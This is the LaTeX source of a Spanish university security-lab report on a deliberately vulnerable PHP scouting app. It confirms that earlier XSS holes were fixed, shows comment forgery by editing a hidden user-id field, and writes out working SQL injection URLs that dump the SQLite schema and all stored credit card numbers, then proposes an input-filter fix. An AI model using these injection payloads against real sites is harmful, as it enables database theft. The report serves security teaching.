\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{hyperref}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{color}

\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

\lstset{ 
  backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}; should come as last argument
  basicstyle=\footnotesize,        % the size of the fonts that are used for the code
  breakatwhitespace=false,         % sets if automatic breaks should only happen at whitespace
  breaklines=true,                 % sets automatic line breaking
  captionpos=b,                    % sets the caption-position to bottom
  commentstyle=\color{mygreen},    % comment style
  deletekeywords={...},            % if you want to delete keywords from the given language
  escapeinside={\%*}{*)},          % if you want to add LaTeX within your code
  extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
  frame=single,	                   % adds a frame around the code
  keepspaces=true,                 % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
  keywordstyle=\color{blue},       % keyword style
  language=Octave,                 % the language of the code
  morekeywords={*,...},            % if you want to add more keywords to the set
  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
  numbersep=5pt,                   % how far the line-numbers are from the code
  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
  rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
  showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
  showstringspaces=false,          % underline spaces within strings only
  showtabs=false,                  % show tabs within strings adding particular underscores
  stepnumber=2,                    % the step between two line-numbers. If it's 1, each line will be numbered
  stringstyle=\color{mymauve},     % string literal style
  tabsize=2,	                   % sets default tabsize to 2 spaces
  title=\lstname                   % show the filename of files included with \lstinputlisting; also try caption instead of title
}

\author{Pablo Riutort Grande}
\title{Vulnerabilidades de seguridad · MISTIC\\ \vspace{1cm}\textbf{Práctica 2}}
\begin{document}
\maketitle
\newpage

\section{}
\textbf{Sabéis que, en la versión inicial, tanto la página principal de esta aplicación web como la
página de consulta de comentarios sobre un jugador era vulnerable a inyecciones XSS a
través de los campos «Team Name» y «Player Name». Por lo tanto, lo primero que haremos
es estudiar si esto ha sido correctamente resuelto por parte de los desarrolladores.}

\begin{enumerate}
\item \textbf{¿La página principal («index.php») continua presentando esta vulnerabilidad? ¿Como
lo habéis comprobado?}\\
La página index.php no presenta esta vulnerabilidad. Se puede comprobar en la misma página de la siguiente forma:

\begin{center}

\includegraphics[scale=0.6]{player.png}\\
\textit{Formulario para añadir un jugador}
\end{center}

\begin{center}

\includegraphics[scale=0.6]{player2.png}\\
\textit{Listado de jugadores en index.php con los caracteres debidamente escapados}
\end{center}

Si la página aún fuera vulnerable los tags de JavaScript se ejecutarían mostrando dos alerts con los mensajes especificados.

\item \textbf{¿La página de consulta de comentarios («show\_comments.php») continua
presentando aquesta vulnerabilidad? ¿Como lo habéis comprobado?}\\
De igual manera que index.php, esta vulnerabilidad ha sido solventada aquí también; lo podemos comprobar de la siguiente manera:

\begin{center}

\includegraphics[scale=0.6]{comment.png}\\
\end{center}

\begin{center}

\includegraphics[scale=0.6]{comment2.png}\\
\textit{Listado de comentarios del jugador con los caracteres debidamente escapados}
\end{center}

\item \textbf{¿Respecto a las vulnerabilidades que hayan sido resueltas: cómo lo han hecho los
desarrolladores?}\\
En el código de la aplicación podemos ver que los desarrolladores han dejado pistas de lo que han arreglado.\\

\begin{center}

\includegraphics[scale=0.6]{index.png}\\
\textit{index.php}
\end{center}

\begin{center}

\includegraphics[scale=0.6]{show_comments.png}\\
\textit{show\_comments.php}
\end{center}

La diferencia entre las versiones antiguas y los parches es la palabra reservada \textbf{htmlspecialchars} que hace las conversiones necesarias de caracteres especiales a entidades HTML \cite{php}.\\
Algunos de los caracteres reemplazados son: $<$, $>$, necesarios para escribir el tag $<$script$>$.
Podemos comprobar que los caracteres $<$, $>$ han sido reemplazados por las entidades de HTML \&lt y \&gt respectivamente:
\begin{center}

\includegraphics[scale=0.6]{inspect.png}

\includegraphics[scale=0.6]{entities.png}
\end{center}

\item \textbf{¿En caso que alguna vulnerabilidad aún no haya sido resuelta: qué error han
cometido los desarrolladores? ¿Con cqué código se puede explotar?}\\
Para añadir comentarios en show\_comments.php se utiliza un formulario. 

\begin{center}

\includegraphics[scale=0.6]{form3.png}\\
\textit{El usuario logueado es luis y manda un comentario mediante el formulario}
\end{center}

Este formulario utiliza la información del ``id'' del usuario logueado para publicar un comentario en su nombre.

\begin{center}

\includegraphics[scale=0.6]{form2.png}\\
\textit{HTML del formulario}
\end{center}

Este $<input>$ tiene un parámetro ``value'' que identifica al usuario que envía el comentario, pero este valor puede ser modificado en el mismo HTML permitiendo publicar comentarios en nombre de otra persona:

\begin{center}

\includegraphics[scale=0.6]{form4.png}\\
\textit{Edición del HTML del formulario}
\end{center}

\begin{center}

\includegraphics[scale=0.6]{form5.png}\\
\textit{Comentario soez publicado por el usuario marcos}
\end{center}

\end{enumerate}

\section{}
\textbf{Por otro lado, os habéis enterado de que se ha localizado una nueva vulnerabilidad en esta
aplicación. La única información que os ha llegado es que se trata de una vulnerabilidad
similar a la CVE-2008-5804.}

\begin{enumerate}
\item \textbf{¿En qué consiste la vulnerabilidad CVE-2008-5804?}\\
Consiste en una vulnerabilidad a SQL injection que permite a un atacante remoto ejecutar comandos SQL a través del parámetro ``id'' y una acción de edición \cite{cve}.
\item \textbf{¿Qué vulnerabilidad de la aplicación de scouting se le parece? ¿Cómo la habéis
encontrado?}\\
Tal y como expone el CVE-2008-5804 esta vulnerabilidad  permite ejecutar comandos SQL a través del parámetro ``id'' en una acción de edición \cite{cve}. En la aplicación de scouting existe una página de edición que expone en la URL la ``id'' del jugador que se va a editar.\\
Para probar que podemos intentar hacer SQL injection se ha intentado acceder a la URL:
\begin{lstlisting}
http://localhost/web/edit\_player.php?id=7"--
\end{lstlisting}
Generando el siguiente error:
\begin{center}

\includegraphics[scale=0.5]{sqli1.png}
\end{center}
Este error nos permite ver la estructura de la query que se está ejecutando el servidor y además nos demuestra que la aplicación parece vulnerable ya que no se está saneando la entrada del ``id'' del jugador.

\item \textbf{¿Cómo es el ataque que hay que realizar para descubrir los nombres de todas las
tablas de las bases de datos, así como todos los nombres de todos sus campos?}\\
Gracias al mensaje de error de la aplicación sabemos que la aplicación utiliza SQLite para guardar datos. En SQLite existe una tabla especial llamda SQLITE\_MASTER que contiene la definción del esquema de la base de datos \cite{sqlite}. Podríamos obtener la información de los nombres de todas las tablas y sus campos con la siguiente query:
\begin{lstlisting}[language=SQL,caption={Obtener todos los nombres y la definición de las tablas}]
select name, group_concat(name||"->"|| sql || char(10)) from SQLITE_MASTER;
\end{lstlisting}

Sabiendo esto, podemos aprovechar la entrada de la ``id'' del jugador desde esta página de edición para concatenar queries y obtener información variada de la base de datos ahora expuesta.
\begin{lstlisting}
http://localhost/web/edit_player.php?id=7+union+select+name,+group_concat(name||"->"||+sql+||+char(10))+from+SQLITE_MASTER;
\end{lstlisting}

\begin{center}

\includegraphics[scale=0.5]{sqli2.png}\\
\textit{Obtenemos la información de la base de datos (tablas y su definición) en una concatenación}
\end{center}

\item \textbf{¿Utilizando la información obtenida en el punto anterior, cómo es el ataque que
obtiene todos los números de las tarjetas de crédito?}\\
En el apartado anterior hemos obtenido la definción de la tabla \textit{``creditcards''}, si quisiéramos obtener los números de las tarjetas podríamos utilizar el mismo método utilizado en el apartado anterior pero cambiando la select a:
\begin{lstlisting}[language=SQL,caption={Concatenar los números de tarjetas de crédito}]
union select group_concat(number||char(10)), cardid from creditcards;
\end{lstlisting}
Con esta query en la URL obtendremos los números de tarjeta en la página:
\begin{lstlisting}
http://localhost/web/edit_player.php?id=7+union+select+group_concat(number||char(10)),+cardid+from+creditcards;
\end{lstlisting}
\begin{center}

\includegraphics[scale=0.5]{sqli3.png}
\end{center}

\item \textbf{¿Qué cambios haríais en el código para conseguir que la aplicación dejara de ser
vulnerable a estos ataques? Tened en cuenta también las vulnerabilidades de la
pregunta 1 (XSS).}\\
Para evitar el SQL injection se debería sanear el parámetro GET ``id'' de nuestra URL de tal forma que cuando se introduzca en la query no de pie a errores. En PHP se pueden aplicar filtros especiales que quitarán caracteres indeseados a nuestro input \cite{filter}.\\
En nuestra aplicación podemos realizar el siguiente cambio:\\
\begin{lstlisting}[language=PHP, firstnumber=23, caption={edit\_players.php},captionpos=b]
//$id = $_GET['id'];
$id = filter_var($_GET['id'], FILTER_VALIDATE_INT);
\end{lstlisting}

\end{enumerate}


\begin{thebibliography}{9}

\bibitem{php}
  \textbf{The PHP Group},\\
  PHP Manual,\\
  \textit{htmlspecialchars — Convert special characters to HTML entities},\\
  \href{https://www.php.net/manual/en/function.htmlspecialchars.php}{PHP Manual - htmlspecialchars}
  
\bibitem{cve}
  \textbf{The MITRE Corporation},\\
  Common Vulnerabilities and Exposures.\\
  \href{https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-5804}{CVE-2008-5804}

\bibitem{sqlite}
  \textbf{sqlite.org},\\
  SQLite Frequently Asked Questions: How do I list all tables/indices contained in an SQLite database\\
  \href{https://sqlite.org/faq.html#q7}{SQLite FAQ}

\bibitem{filter}
  \textbf{The PHP Group},\\
  PHP Manual,\\
  \href{https://php.net/manual/en/book.filter.php}{Data Filtering}
\end{thebibliography}

\end{document}